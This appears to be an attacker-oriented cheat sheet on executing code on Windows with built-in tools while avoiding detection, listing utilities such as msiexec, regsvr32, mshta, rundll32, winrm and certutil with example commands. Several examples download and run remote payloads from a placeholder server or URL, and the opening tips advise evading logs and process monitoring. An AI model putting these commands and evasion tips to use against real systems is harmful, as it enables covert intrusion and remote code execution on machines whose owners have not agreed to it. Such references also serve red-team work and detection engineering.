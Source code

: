 As an attacker often your aim is to execute code on a target system while simultaneously avoiding detection. 
Luckily Windows provides many built in tools to help you execute code while leaving very little evidence behind. 

A list of ways to execute code, including examples, are shown below. Note that UAC bypasses and DLL hijacking will not be included as these are covered elsewhere.

#### General tips:

To remain hidden ideally you want to:

- Avoid creating new processes/network connections
- Avoid creating anomalous parent/child relationships
- Avoid creating/modifying files/registry entries
- Avoid creating memory anomalies
- Avoid leaving evidence in log files

If you are going to drop files, then drop utilities to help run code as opposed to dropping the payload itself.

#### References:

Microsoft command line reference:
https://technet.microsoft.com/en-us/library/cc772390(v=ws.11).aspx

UAC Bypasses:
https://github.com/hfiref0x/UACME


### Code Execution Techniques:

- appsyncvpublishing.exe
  - Description: This utility supports the ability to execute powershell making it an excellent alternative to Powershell.exe.
  - Example: SyncAppvPublishingServer.exe "n;calc"

- control.exe
  - Description: The control panel feature within Windows supports the execution of arbitrary DLLs as demonstrated in the shadowbrokers release. (https://www.dearbytes.com/blog/playing-around-with-nsa-hacking-tools/)
  - Example: control.exe payload.dll

- cscript.exe/wscript.exe
  - Description: Windows script engines that support both VBS and JScript execution. CScript is the console version, WScript is the Window version. Neither version supports scripts being supplied on the command line, instead a file must be created containing the script or a funky bat file wrapper.
  - Example: cscript.exe test.vbs (where test.vbs contains WScript.Echo "test")

- forfiles.exe
  - Description: Forfiles supports the ability to execute commands and seems to be equivalent to cmd.
  - Example: forfiles /p c:\windows\system32 /m notepad.exe /c calc.exe

- msiexec
  - Description - The Windows installer typically used to install new software or patches. It be used to download and execute a remote payload.
  - Example: msiexec /i http://server/package.msi

- mshta
  - Description: MSHTA can be used to execute HTA files (containing scripts) or directly execute VBScript/JScript from the command line.
  - Example: mshta bad.hta
  - Example: mshta vbscript:Execute("MsgBox(""amessage"",64,""atitle"")(window.close)")
  - Example: mshta javascript:alert('test');

- powershell
  - Description: The most well known and most useful attacker utility. Powershell can be operated in console mode, with commands provided on the command line or through passing a ps1 file containing commands.
  - Example: powershell -c calc
  - Example: powershell -exec bypass -File test.ps1
  
- regsvr32.exe
  - Description: Command-line tool that registers dll files as command components in the registry. Notable for its use to bypass UAC and useful as it supports remote DLL retrieval.
  - Example: regsvr32 /s /n /u /i:[URL] scrobj.dll

- rundll32.exe
  - Description: Loads and runs DLLs. Three parameters are typically used, the DLL to be executed, the function within the DLL to call and any arguments.
  - Example: rundll32 SHELL32.DLL,ShellExec_RunDLL "calc"
  - Example: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";alert('test');

- winrm.exe
  - Description: WinRM, or Windows Remote Management provides the ability to remotely execute wmi commands. The winrm service is disabled by default but can be enabled.
  - Example: winrm qc -q & winrm i c wmicimv2/Win32_Process @{CommandLine="calc"}


### Download Techniques:

- certutil.exe
  - Description: Allows you to download a payload.
  - Example: certutil -ping [URL]
